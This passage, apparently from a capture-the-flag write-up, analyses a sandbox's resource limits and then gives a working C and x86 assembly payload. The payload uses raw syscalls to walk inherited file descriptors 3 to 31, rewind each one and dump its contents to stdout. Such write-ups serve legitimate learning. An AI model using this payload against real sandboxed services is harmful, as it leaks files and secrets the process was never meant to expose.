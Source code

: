 `FUN_00101c22`
- Sets `RLIMIT_CORE` to 0
  - Limits the size of the core dump file that will be produced if it receives a "core dump" signal
- Sets `RLIMIT_CPU` to 5
  - This is a limit, in seconds, on the amount of CPU time that the process can consume
- Sets `RLIMIT_FSIZE` to 0x400
  - This is the maximum size in bytes of files that the process may create
- Sets `RLIMIT_NOFILE` to 32 and then again to 16
  - This specifies a value one greater than the maximum file descriptor number that can be opened by this process
  - This could also be a hint to consider the open file descriptors
- See https://man7.org/linux/man-pages/man2/getrlimit.2.html for more details

## Creating The Payload

```
extern int syscall3(int syscall_number, int arg1, int arg2, int arg3);
asm(
".globl    syscall3\n"
".type    syscall3, @function\n"
"syscall3:\n"
"  push ebx\n"
"  mov eax, dword ptr 16[esp]\n"
"  mov ebx, dword ptr 20[esp]\n"
"  mov ecx, dword ptr 24[esp]\n"
"  mov edx, dword ptr 28[esp]\n"
"  int 0x80\n"
"  pop ebx\n"
"  ret\n"
""
);

int lseek(int fd, int offset, int whence) {
    return syscall3(19, fd, offset, whence);
}

int read(int fd, void* buf, unsigned int size) {
    return syscall3(3, fd, (int)buf, size);
}

int write(int fd, void* buf, unsigned int size) {
    return syscall3(4, fd, (int)buf, size);
}

int exit(int ret) {
    return syscall3(1, ret, 0, 0);
}

int _start() {
    unsigned char buffer[4096];
    for (int i = 3; i < 32; ++i) {
        int res = lseek(i, 0, 0);
        if (res < 0)
            continue;
        int bytes_read = read(i, buffer, 4096);
        write(1, buffer, bytes_read);
    }
    exit(0);
}
```
